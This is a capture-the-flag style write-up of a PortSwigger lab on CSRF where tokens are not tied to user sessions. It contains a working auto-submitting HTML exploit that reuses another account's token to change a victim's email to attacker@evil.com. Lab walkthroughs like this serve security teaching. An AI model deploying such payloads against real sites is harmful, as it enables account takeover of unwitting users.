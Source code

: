 # CSRF where token is not tied to user session

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/csrf/lab-token-not-tied-to-user-session), you'll learn: CSRF where token is not tied to user session! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★★☆☆☆☆☆☆☆☆

## Background

This lab's email change functionality is vulnerable to CSRF. It uses tokens to try to prevent CSRF attacks, but they aren't integrated into the site's session handling system.

To solve the lab, use your exploit server to host an HTML page that uses a [CSRF attack](https://portswigger.net/web-security/csrf) to change the viewer's email address.

You have two accounts on the application that you can use to help design your attack. The credentials are as follows:

-   `wiener:peter`
-   `carlos:montoya`

## Exploitation

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-4/images/Pasted%20image%2020221215010423.png)

**Login as user `wiener`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-4/images/Pasted%20image%2020221215010530.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-4/images/Pasted%20image%2020221215010537.png)

**In previous labs, we found that there is a email change functionality is vulnerable to CSRF, and it uses tokens to try to prevent CSRF attacks.**

**Let's inspect that form:**
```html
<form class="login-form" name="change-email-form" action="/my-account/change-email" method="POST">
    <label>Email</label>
    <input required type="email" name="email" value="">
    <input required type="hidden" name="csrf" value="z9ku0XSiD7dC99MaTq7GgUQExcKRjCw1">
    <button class='button' type='submit'> Update email </button>
</form>
```

**Now, let's login as user `carlos` to see the CSRF token:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-4/images/Pasted%20image%2020221215010932.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-4/images/Pasted%20image%2020221215010946.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-4/images/Pasted%20image%2020221215010954.png)

**Inspect the form again:**
```html
<form class="login-form" name="change-email-form" action="/my-account/change-email" method="POST">
    <label>Email</label>
    <input required type="email" name="email" value="">
    <input required type="hidden" name="csrf" value="02hQ8SHZTM6kWtull9XPktNIi3ixZI6b">
    <button class='button' type='submit'> Update email </button>
</form>
```

**Hmm... What if I use user `wiener` CSRF token in user `carlos`??**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-4/images/Pasted%20image%2020221215011218.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-4/images/Pasted%20image%2020221215011235.png)

It still works!

**Armed with above information, we can go to `exploit server`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-4/images/Pasted%20image%2020221215011301.png)

**Then craft a form with user `carlos` CSRF token that performs CSRF attack:**
```html
<html>
	<head>
		<title>CSRF-4</title>
	</head>
	<body>
		<form action="https://0a75005103f31b2bc05213ae00f10011.web-security-academy.net/my-account/change-email" method="POST">
		    <input type="hidden" name="email" value="attacker@evil.com">
			<input required type="hidden" name="csrf" value="02hQ8SHZTM6kWtull9XPktNIi3ixZI6b">
		</form>

		<script>
			document.forms[0].submit();
		</script>
	</body>
</html>
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-4/images/Pasted%20image%2020221215011712.png)

**Now, we can verify is it working or not in the `View exploit` button:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-4/images/Pasted%20image%2020221215011722.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-4/images/Pasted%20image%2020221215011732.png)

It works! 

**To change a user's email, we can grab a fresh CSRF token: `<input required type="hidden" name="csrf" value="7IfuZMECjozwHi0b4FO2UbczV8ACEX26">`**

**Then update the old CSRF token in our exploit:**
```html
<html>
	<head>
		<title>CSRF-4</title>
	</head>
	<body>
		<form action="https://0a75005103f31b2bc05213ae00f10011.web-security-academy.net/my-account/change-email" method="POST">
		    <input type="hidden" name="email" value="attacker@evil.com">
			<input required type="hidden" name="csrf" value="7IfuZMECjozwHi0b4FO2UbczV8ACEX26">
		</form>

		<script>
			document.forms[0].submit();
		</script>
	</body>
</html>
```

**Finally, click `Deliver exploit to victim` button:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-4/images/Pasted%20image%2020221215011850.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-4/images/Pasted%20image%2020221215011916.png)

We've changed the victim's email address!

# What we've learned:

1. CSRF where token is not tied to user session